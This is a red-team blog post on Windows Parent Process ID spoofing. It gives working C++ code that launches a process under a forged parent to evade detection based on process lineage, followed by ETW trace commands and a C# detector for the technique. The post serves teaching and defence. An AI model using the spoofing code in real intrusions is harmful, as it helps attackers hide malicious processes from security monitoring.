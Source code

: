 ```yaml
---
layout: post
title: "2024-06-18-parent process id ppid spoofing"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /parent-process-id-ppid-spoofing/
---
```


# Parent Process ID (PPID) Spoofing

## PPID Spoofing

PPID spoofing is a technique that allows attackers to start programs with arbitrary parent process set. This helps attackers make it look as if their programs were spawned by another process (instead of the one that would have spawned it if no spoofing was done) and it may help evade detections, that are based on parent/child process relationships.&#x20;

For example, by default, most programs that an interactive user launches, will be spawned by explorer.exe:

![](../../.gitbook/assets/explorer-spawns-notepad.gif)

However, with the below code, we can make it look as if the notepad.exe was spawned by igfxTray.exe (PID 6200):

{% code title="ppid-spoofing.cpp" %}
```cpp
#include <windows.h>
#include <TlHelp32.h>
#include <iostream>

int main() 
{
	STARTUPINFOEXA si;
	PROCESS_INFORMATION pi;
	SIZE_T attributeSize;
	ZeroMemory(&si, sizeof(STARTUPINFOEXA));
	
	HANDLE parentProcessHandle = OpenProcess(MAXIMUM_ALLOWED, false, 6200);

	InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
	si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
	UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &parentProcessHandle, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);

	return 0;
}
```
{% endcode %}

If we compile and run the above code, we will see the notepad pop under the spoofed parent - igfxTray.exe (PID 6200):

![](../../.gitbook/assets/ppid-spoofing-notepad.gif)

## PPID Spoofing Detection

For PPID spoofing detection, we can use [Event Tracing for Windows](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md), and more specifically, the `Microsoft-Windows-Kernel-Process` provider.

This provider emits information about started and killed processes on the system, amongst many other things.&#x20;

We can quickly check out some logs it generates by creating a trace session and subscribing to process related events (0x10 keyword):

```
logman create trace ppid-spoofing -p Microsoft-Windows-Kernel-Process 0x10 -ets
logman start ppid-spoofing
```

Let's confirm the trace session is running:

```
logman query ppid-spoofing -ets
```

![](<../../.gitbook/assets/image (564).png>)

Now, let's execute our notepad.exe with a spoofed parent again and let's look at where the log files from our ETW tracing session are saved to:

![](<../../.gitbook/assets/image (562).png>)

Open the C:\ppid-spoofing.etl in Windows Event Viewer:

![](<../../.gitbook/assets/image (565).png>)

We can find an event with ID 1, saying that notepad was started by a process with PID 6200 (that's our spoofed PPID of the process igfxTray.exe):

![](<../../.gitbook/assets/image (567).png>)

If we look at the same data in an XML view (the details tab) and cross check it with our processes tree in Process Explorer, we see:

* in blue - the notepad we started with a spoofed process PID
* in red - notepad's spoofed parent process and its PID
* in black - our malicious program that started notepad with a spoofed  PPID!

![](<../../.gitbook/assets/image (568).png>)

From the above, we can conclude that when `ParentProcessId` (red, PID 6200) != `Execution Process ID` (black, PID 11076), we may be looking at a PPID spoofing.

Now that confirmed we have the required telemetry for detection, we can write a simple C# consumer to do real time PPID spoofing detection:

{% code title="ppid-spoofing-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Parsers;
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Linq.Expressions;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

namespace PPIDSpoofingDetection
{
    static class Program
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-ppid-spoofing"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-Kernel-Process", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always, 0x10);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start" && Regex.IsMatch(e.FormattedMessage.ToLower(), "werfault") == false)
                    {
                        string[] messageBits = e.FormattedMessage.Replace(",", string.Empty).Split(' ');
                        int PID = int.Parse(messageBits[1]);
                        int PPID = int.Parse(messageBits[10]);
                        int realPPID = e.ProcessID;
                        
                        // if ParentProcessId (red, PID 6200) != Execution Process ID (black, PID 11076)
                        if (PPID != realPPID)
                        {
                            // this may fail if the process is already gone.
                            string processName = Process.GetProcessById(PID).ProcessName;
                            Console.WriteLine($"{e.TimeStamp} PPID Spoofing detected: {processName} (PID={PID}) started by PPID={realPPID} rather than PPID={PPID}");
                        }
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

If we compile and run the code, and then attempt to launch notepad with a spoofed PPID again, it will get flagged:

![](../../.gitbook/assets/ppid-spoofing-detection-etw.gif)

## References

{% embed url="https://blog.didierstevens.com/2009/11/22/quickpost-selectmyparent-or-playing-with-the-windows-process-tree/" %}

{% embed url="https://attack.mitre.org/techniques/T1502/" %}

{% embed url="https://blog.f-secure.com/detecting-parent-pid-spoofing/" %}
@spotheplanet

